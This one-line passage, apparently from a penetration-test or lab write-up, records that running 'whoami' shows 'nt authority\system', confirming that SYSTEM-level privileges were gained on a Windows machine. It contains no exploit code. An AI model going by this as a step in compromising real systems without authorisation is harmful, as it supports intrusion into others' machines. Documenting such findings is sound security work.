  - **Command**: `whoami` confirms elevated privileges as `nt authority\system`.

